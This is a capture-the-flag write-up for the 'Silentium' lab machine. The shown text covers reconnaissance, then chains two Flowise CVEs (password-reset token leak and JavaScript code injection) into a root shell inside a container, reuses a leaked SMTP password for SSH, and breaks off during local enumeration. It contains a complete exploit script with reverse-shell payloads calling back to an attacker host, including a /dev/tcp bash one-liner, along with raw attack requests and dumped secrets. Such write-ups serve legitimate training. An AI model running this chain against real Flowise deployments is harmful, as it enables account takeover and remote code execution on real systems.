





## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Virtual Host (VHOST) Enumeration](#Virtual-Host-VHOST-Enumeration)
    - [Subdomain Enumeration](#Subdomain-Enumeration)
- [Initial Access](#Initial-Access)
    - [CVE-2025-58434: Flowiseai Flowise Authentication Bypass](#CVE-2025-58434-Flowiseai-Flowise-Authentication-Bypass)
    - [CVE-2025-59528: Flowise AI Agent Builder Code Injection](#CVE-2025-59528-Flowise-AI-Agent-Builder-Code-Injection)
- [Privilege Escalation to ben](#Privilege-Escalation-to-ben)
    - [Password Reuse](#Password-Reuse)
- [user.txt](#usertxt)
- [Enumeration (ben)](#Enumeration-ben)
- [Port Forwarding](#Port-Forwarding)
- [Enumeration of Port 3001/TCP](#Enumeration-of-Port-3001TCP)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [CVE: 2024-44625: Gogs Symbolic Link Path Traversal](#CVE-2024-44625-Gogs-Symbolic-Link-Path-Traversal)
- [root.txt](#roottxt)

## Summary

The box starts with `SSH` on port `22/TCP` and `HTTP` on port `80/TCP`. The web service reveals a company website for `Silentium` that exposes potential usernames. Virtual host enumeration uncovers a `staging.silentium.htb` subdomain running `Flowise` — an open-source visual `AI` agent builder.

The `Flowise` instance is vulnerable to `CVE-2025-58434`, an authentication bypass where the `/api/v1/account/forgot-password` endpoint returns a `tempToken` directly in its `API` response when called with the `x-request-from: internal` header, bypassing any intended email delivery. This token is immediately usable to reset the password of any account, granting authenticated access to the `Flowise` dashboard as `ben`.

Once authenticated, `CVE-2025-59528` is exploited — a `JavaScript` `Code Injection` vulnerability in the `/api/v1/node-load-method/customMCP` endpoint. The endpoint accepts a `mcpServerConfig` parameter that is evaluated server-side as `JavaScript` without sanitisation, allowing arbitrary code execution within the `Flowise` container. The resulting shell runs as `root` inside a `Docker` container, and environment variable inspection reveals the `SMTP_PASSWORD` which doubles as the `ben` user's system password, providing `SSH` access to the host and retrieval of `user.txt`.

For `Privilege Escalation` to root, enumeration reveals `Gogs` — a self-hosted `Git` service — running locally on port `3001/TCP` as `root`. The installed version is vulnerable to `CVE-2024-44625`, a `Symbolic Link Path Traversal` vulnerability. By pushing a symlink into a repository that points to a `Git` hook path in the repository storage, and then overwriting the symlink target via the `Gogs API` with a malicious shell script, the hook is written to an arbitrary location owned by the `root`-running `Gogs` process. Triggering a push executes the hook, creating a `SUID` copy of `/bin/bash` at `/tmp/rootbash`, which is then used to escalate to root and retrieve `root.txt`.

## Reconnaissance

### Port Scanning

We began with our initial port scan using `Nmap`. The scan revealed `SSH` and an `nginx` web server that redirected to `http://silentium.htb/`, which we added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.26.96
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-11 21:07 +0200
Nmap scan report for 10.129.26.96
Host is up (0.016s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://silentium.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.50 seconds
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.26.96    silentium.htb
```

### Enumeration of Port 80/TCP

Running `WhatWeb` against the web service confirmed an `nginx 1.24.0` installation serving the `Silentium` platform.

- [http://silentium.htb/](http://silentium.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://silentium.htb/
http://silentium.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.26.96], Script, Title[Silentium | Institutional Capital & Lending Solutions], nginx[1.24.0]
```

The website presented a financial services company page. Browsing through the content revealed a team section exposing potential usernames.





| Username |
| -------- |
| Marcus   |
| Ben      |
| Elena    |

### Virtual Host (VHOST) Enumeration

Using `ffuf` we fuzzed for `Virtual Host` (`VHOST`) configurations under `silentium.htb`, filtering out the default response size of `178` bytes. A `staging` subdomain was discovered and added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.silentium.htb" -u http://silentium.htb/ --fs 178

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://silentium.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.silentium.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

staging                 [Status: 200, Size: 3142, Words: 789, Lines: 70, Duration: 23ms]
:: Progress: [151265/151265] :: Job [1/1] :: 2439 req/sec :: Duration: [0:00:52] :: Errors: 0 ::
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.26.96    silentium.htb
10.129.26.96    staging.silentium.htb
```

### Subdomain Enumeration

Visiting the staging subdomain and running `WhatWeb` revealed a `Flowise` instance — an open-source visual `AI` agent and chatflow builder.

- [http://staging.silentium.htb/](http://staging.silentium.htb/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://staging.silentium.htb/      
http://staging.silentium.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.26.96], Meta-Author[FlowiseAI], Open-Graph-Protocol[website], Script[module], Title[Flowise - Build AI Agents, Visually], UncommonHeaders[access-control-allow-credentials], nginx[1.24.0]
```

The subdomain served a `Flowise` login page, requiring credentials to proceed.


## Initial Access

### CVE-2025-58434: Flowiseai Flowise Authentication Bypass

`CVE-2025-58434` is an authentication bypass vulnerability in `Flowise` affecting versions up to and including `3.0.5`. The `/api/v1/account/forgot-password` endpoint is intended to initiate a password reset flow by generating a temporary token and sending it to the user's registered email address. However, the endpoint fails to validate whether a request is genuinely originating from an internal service or an external user. When a request is sent with the `x-request-from: internal` header, `Flowise` skips the email delivery step and instead returns the `tempToken` directly in the `JSON` response body. This means any unauthenticated attacker who knows or can guess a valid account email address can immediately obtain a functional password reset token without requiring access to the target's inbox.The token can then be submitted directly to the `/api/v1/account/reset-password` endpoint to set an arbitrary new password, effectively bypassing authentication entirely.

Based on the usernames discovered on the main website, `ben@silentium.htb` was used as the target email. Sending the `forgot-password` request with the `x-request-from: internal` header caused the `tempToken` to be returned directly in the response.

- [https://www.sentinelone.com/vulnerability-database/cve-2025-58434/](https://www.sentinelone.com/vulnerability-database/cve-2025-58434/)

| Email             |
| ----------------- |
| ben@silentium.htb |

```shell
POST /api/v1/account/forgot-password HTTP/1.1
Host: staging.silentium.htb
Content-Length: 38
x-request-from: internal
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Origin: http://staging.silentium.htb
Referer: http://staging.silentium.htb/forgot-password
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"user":{"email":"ben@silentium.htb"}}
```

The response returned a `201 Created` with the `tempToken` embedded in the user object.

```shell
HTTP/1.1 201 Created
Server: nginx/1.24.0 (Ubuntu)
Date: Sat, 11 Apr 2026 19:17:31 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 579
Connection: keep-alive
Access-Control-Allow-Origin: http://staging.silentium.htb
Vary: Origin
Access-Control-Allow-Credentials: true
ETag: W/"243-KTOO/7CcWn2JNjZKgnmiem4Efd0"

{"user":{"id":"e26c9d6c-678c-4c10-9e36-01813e8fea73","name":"admin","email":"ben@silentium.htb","credential":"$2a$05$6o1ngPjXiRj.EbTK33PhyuzNBn2CLo8.b0lyys3Uht9Bfuos2pWhG","tempToken":"8zytlxg33ZIpaHNOFYIEAMgBY5hp4Jw3FsGRHbzVVlq67wZSVVXPakCa5Vn9hekH","tokenExpiry":"2026-04-11T19:32:31.210Z","status":"active","createdDate":"2026-01-29T20:14:57.000Z","updatedDate":"2026-04-11T19:17:31.000Z","createdBy":"e26c9d6c-678c-4c10-9e36-01813e8fea73","updatedBy":"e26c9d6c-678c-4c10-9e36-01813e8fea73"},"organization":{},"organizationUser":{},"workspace":{},"workspaceUser":{},"role":{}}
```

| Temporary Token                                                  |
| ---------------------------------------------------------------- |
| 8zytlxg33ZIpaHNOFYIEAMgBY5hp4Jw3FsGRHbzVVlq67wZSVVXPakCa5Vn9hekH |

Navigating to the password reset page and supplying the token confirmed it was accepted by the application.


The `tempToken` was submitted directly to the reset endpoint alongside the target email and our chosen new password.

```shell
POST /api/v1/account/reset-password HTTP/1.1
Host: staging.silentium.htb
Content-Length: 143
x-request-from: internal
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Origin: http://staging.silentium.htb
Referer: http://staging.silentium.htb/reset-password
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"user":{"email":"ben@silentium.htb","tempToken":"8zytlxg33ZIpaHNOFYIEAMgBY5hp4Jw3FsGRHbzVVlq67wZSVVXPakCa5Vn9hekH","password":"P@ssword123"}}
```

The password was successfully reset and we logged into the `Flowise` dashboard as `ben`.



### CVE-2025-59528: Flowise AI Agent Builder Code Injection

`CVE-2025-59528` is a server-side `JavaScript` `Code Injection` vulnerability in `Flowise` affecting versions up to and including `3.0.5`, with a `CVSS` score of `10.0`. The `/api/v1/node-load-method/customMCP` endpoint accepts a `mcpServerConfig` parameter as part of a `JSON` request body. This parameter is intended to allow users to supply configuration for a custom `Model Context Protocol` (`MCP`) server. However, the value is passed directly to `eval()` or an equivalent execution function server-side without any sanitisation or sandboxing. An authenticated attacker — or in combination with `CVE-2025-58434`, an unauthenticated one — can supply arbitrary `JavaScript` in this field and have it executed in the context of the `Flowise` `Node.js` process. Because `Flowise` runs with access to `Node.js` built-in modules such as `child_process` and `net`, this provides a straightforward path to a reverse shell. The vulnerability is classified under `CWE-94` (`Improper Control of Code Generation`).

- [https://github.com/FlowiseAI/Flowise/security/advisories/GHSA-3gcm-f6qx-ff7p](https://github.com/FlowiseAI/Flowise/security/advisories/GHSA-3gcm-f6qx-ff7p)

We combined both vulnerabilities into a single exploit script that chains `CVE-2025-58434` to obtain the `tempToken`, resets the password, authenticates, retrieves an `API` key via the `x-request-from: internal` header bypass, and then delivers the `JavaScript` reverse shell payload to the `customMCP` endpoint.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Silentium/files]
└─$ cat CVE-2025-59528.py 
#!/usr/bin/env python3
# CVE-2025-58434 + CVE-2025-59528
# Flowise Auth Bypass (tempToken leak) → password reset → login → API key → RCE
# Flowise <= 3.0.5 | CWE-94 | CVSS 10.0

import argparse, secrets, string, sys
import requests, urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

BANNER = r"""
 _____ _           _      
|  ___| |___ _ _ _(_)___ ___ 
| |_  | / _ \ V V / (_-</ -_)
|_|   |_\___/\_/\_/|_/__/\___|
CVE-2025-58434 + CVE-2025-59528 | Flowise Auth Bypass + RCE
by purplestorm
"""

def die(msg: str) -> None:
    print(f"[-] {msg}")
    sys.exit(1)

def build_payload(lhost: str, lport: str, mode: str) -> str:
    if mode == "node":
        # node net.Socket shell — no /dev/tcp dependency
        return (
            "(()=>{"
            "const net=process.mainModule.require('net');"
            "const cp=process.mainModule.require('child_process');"
            "const sh=cp.spawn('/bin/sh',[]);"
            "const c=new net.Socket();"
            f"c.connect({int(lport)},'{lhost}',()=>{{"
            "c.pipe(sh.stdin);sh.stdout.pipe(c);sh.stderr.pipe(c);"
            "});"
            "return {url:'http://127.0.0.1:1'};"
            "})()"
        )
    else:
        # bash /dev/tcp fallback
        return (
            "(()=>{"
            f"process.mainModule.require('child_process').spawn('bash',['-c','bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'],"
            "{detached:true,stdio:'ignore'});"
            "return {url:'http://127.0.0.1:1'};"
            "})()"
        )

def main() -> None:
    print(BANNER)
    parser = argparse.ArgumentParser(
        description="CVE-2025-58434 + CVE-2025-59528 — Flowise Auth Bypass + RCE",
        usage="python3 CVE-2025-59528.py -u <url> -e <username> -i <lhost> -p <lport>"
    )
    parser.add_argument("-u",  "--url",     required=True,  help="Flowise base URL (e.g. http://192.168.1.1)")
    parser.add_argument("-v",  "--vhost",   default=None,   help="Virtual host header (e.g. flowise.example.com)")
    parser.add_argument("-e",  "--email",   default="user@example.com", help="Target account email")
    parser.add_argument("-pw", "--password",default=None,   help="Password to set (random if omitted)")
    parser.add_argument("-i",  "--lhost",   required=True,  help="Attacker IP")
    parser.add_argument("-p",  "--lport",   required=True,  help="Attacker port")
    parser.add_argument("-m",  "--mode",    default="node", choices=["node","bash"],
                                            help="Shell mode: node (default) or bash")
    parser.add_argument("-k",  "--no-verify", action="store_true", help="Disable TLS verification")
    args   = parser.parse_args()
    verify = not args.no_verify

    # derive vhost from URL if not provided
    vhost = args.vhost or args.url.split("//")[-1].split(":")[0]

    # random password if not specified
    password = args.password or (
        "Silentium!" + "".join(secrets.choice(string.digits) for _ in range(4))
    )

    base    = args.url.rstrip("/")
    session = requests.Session()

    def hdrs(extra: dict = {}) -> dict:
        h = {"Host": vhost, "Content-Type": "application/json"}
        h.update(extra)
        return h

    # ── step 1: CVE-2025-58434 — leak tempToken ───────────────────────────────
    r = session.post(f"{base}/api/v1/account/forgot-password",
                     headers=hdrs(), json={"user": {"email": args.email}},
                     verify=verify, timeout=15)
    if r.status_code != 201:
        die(f"forgot-password failed ({r.status_code}): {r.text[:200]}")
    try:
        temp_token = r.json()["user"]["tempToken"]
        print(f"[+] CVE-2025-58434: tempToken obtained")
    except Exception:
        die("could not parse tempToken")

    # ── step 2: reset password ────────────────────────────────────────────────
    r = session.post(f"{base}/api/v1/account/reset-password",
                     headers=hdrs(),
                     json={"user": {"email": args.email, "tempToken": temp_token, "password": password}},
                     verify=verify, timeout=15)
    if r.status_code != 201:
        die(f"reset-password failed ({r.status_code}): {r.text[:200]}")
    print(f"[+] Password reset to: {password}")

    # ── step 3: login — session stores cookies automatically ──────────────────
    r = session.post(f"{base}/api/v1/auth/login",
                     headers=hdrs(), json={"email": args.email, "password": password},
                     verify=verify, timeout=15)
    if r.status_code != 200:
        die(f"login failed ({r.status_code}): {r.text[:200]}")
    print(f"[+] Authenticated as {args.email}")

    # ── step 4: fetch API key via x-request-from: internal ───────────────────
    r = session.get(f"{base}/api/v1/apikey",
                    headers={"Host": vhost, "x-request-from": "internal"},
                    verify=verify, timeout=15)
    if r.status_code != 200:
        die(f"apikey fetch failed ({r.status_code}): {r.text[:200]}")
    try:
        api_key = r.json()[0]["apiKey"]
        print(f"[+] API key obtained: {api_key[:20]}...")
    except Exception:
        die("could not parse apiKey")

    # ── step 5: CVE-2025-59528 — JS code injection → reverse shell ────────────
    js_payload = build_payload(args.lhost, args.lport, args.mode)

    print(f"[*] Mode     : {args.mode}")
    print(f"[*] Listener : nc -lvnp {args.lport}")

    r = session.post(f"{base}/api/v1/node-load-method/customMCP",
                     headers={
                         "Host":          vhost,
                         "Authorization": f"Bearer {api_key}",
                         "Content-Type":  "application/json",
                     },
                     json={"loadMethod": "listActions", "inputs": {"mcpServerConfig": js_payload}},
                     verify=verify, timeout=15)

    print(f"[*] Status   : {r.status_code}")
    if r.status_code in (200, 201):
        print("[+] Payload delivered — check your listener")
    else:
        print(f"[-] Unexpected response: {r.text[:200]}")

if __name__ == "__main__":
    main()
```

Running the exploit against the target delivered the payload successfully.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Silentium/files]
└─$ python3 CVE-2025-59528.py -u http://staging.silentium.htb -i 10.10.16.10 -p 4444  

 _____ _           _      
|  ___| |___ _ _ _(_)___ ___ 
| |_  | / _ \ V V / (_-</ -_)
|_|   |_\___/\_/\_/|_/__/\___|
CVE-2025-58434 + CVE-2025-59528 | Flowise Auth Bypass + RCE
by purplestorm

[+] CVE-2025-58434: tempToken obtained
[+] Password reset to: Silentium!8674
[+] Authenticated as ben@silentium.htb
[+] API key obtained: hWp_8jB76zi0VtKSr2d9...
[*] Mode     : node
[*] Listener : nc -lvnp 4444
[*] Status   : 200
[+] Payload delivered — check your listener
```

A reverse shell connected back to our listener as `root` inside the `Flowise` `Docker` container.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.26.96] 43438
id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

```

## Privilege Escalation to ben

### Password Reuse

With a shell inside the `Docker` container as `root`, the next step was to look for credentials that might allow access to the host system. Running `env` dumped the container's environment variables, which contained several sensitive values including `FLOWISE_USERNAME`, `FLOWISE_PASSWORD`, and notably `SMTP_PASSWORD`.

```shell
env
FLOWISE_PASSWORD=F1l3_d0ck3r
ALLOW_UNAUTHORIZED_CERTS=true
NODE_VERSION=20.19.4
HOSTNAME=c78c3cceb7ba
YARN_VERSION=1.22.22
SMTP_PORT=1025
SHLVL=2
PORT=3000
HOME=/root
OLDPWD=/root/.flowise
SENDER_EMAIL=ben@silentium.htb
PUPPETEER_EXECUTABLE_PATH=/usr/bin/chromium-browser
JWT_ISSUER=ISSUER
JWT_AUTH_TOKEN_SECRET=AABBCCDDAABBCCDDAABBCCDDAABBCCDDAABBCCDD
LLM_PROVIDER=nvidia-nim
SMTP_USERNAME=test
SMTP_SECURE=false
JWT_REFRESH_TOKEN_EXPIRY_IN_MINUTES=43200
FLOWISE_USERNAME=ben
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DATABASE_PATH=/root/.flowise
JWT_TOKEN_EXPIRY_IN_MINUTES=360
JWT_AUDIENCE=AUDIENCE
SECRETKEY_PATH=/root/.flowise
PWD=/opt
SMTP_PASSWORD=r04D!!_R4ge
NVIDIA_NIM_LLM_MODE=managed
SMTP_HOST=mailhog
JWT_REFRESH_TOKEN_SECRET=AABBCCDDAABBCCDDAABBCCDDAABBCCDDAABBCCDD
SMTP_USER=test
```

| Password    |
| ----------- |
| r04D!!_R4ge |

```shell
┌──(kali㉿kali)-[~]
└─$ ssh ben@silentium.htb
ben@silentium.htb's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-107-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Apr 11 07:58:13 PM UTC 2026

  System load:           0.0
  Usage of /:            83.7% of 13.37GB
  Memory usage:          20%
  Swap usage:            0%
  Processes:             227
  Users logged in:       0
  IPv4 address for eth0: 10.129.26.96
  IPv6 address for eth0: dead:beef::250:56ff:fe94:bdd7


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

Last login: Wed Apr  8 19:12:55 2026 from 10.10.14.5
ben@silentium:~$
```

## user.txt

```shell
ben@silentium:~$ cat user.txt 
e2f1ec2c21b0fabd20cc945f0281b201
```

## Enumeration (ben)

Starting with the basics, we checked group memberships and `sudo` permissions.

```shell
ben@silentium:~$ id
uid=1000(ben) gid=1000(ben) groups=1000(ben),100(users)
```

```shell
ben@silentium:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:999:988::/var/log/laurel:/bin/false
ben:x:1000:1000:,,,:/home/ben:/bin/bash
dnsmasq:x:996:65534:dnsmasq:/var/lib/misc:/usr/sbin/nologin
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
```

`ben` had no `sudo` rights.

```shell
ben@silentium:~$ sudo -l
[sudo] password for ben: 
Sorry, user ben may not run sudo on silentium.
```

Checking open ports with `ss` revealed several services bound to `127.0.0.1` that were not exposed externally, notably port `3000/TCP` and `3001/TCP`.

```shell
ben@silentium:~$ ss -tulpn
Netid                                        State                                         Recv-Q                                        Send-Q                                                                               Local Address:Port                                                                                  Peer Address:Port                                        Process                                        
udp                                          UNCONN                                        0                                             0                                                                                       127.0.0.54:53                                                                                         0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                    127.0.0.53%lo:53                                                                                         0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                          0.0.0.0:68                                                                                         0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                    127.0.0.54:53                                                                                         0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                 127.0.0.53%lo:53                                                                                         0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:3000                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:3001                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:1025                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             511                                                                                        0.0.0.0:80                                                                                         0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                       0.0.0.0:22                                                                                         0.0.0.0:*                                                                                          
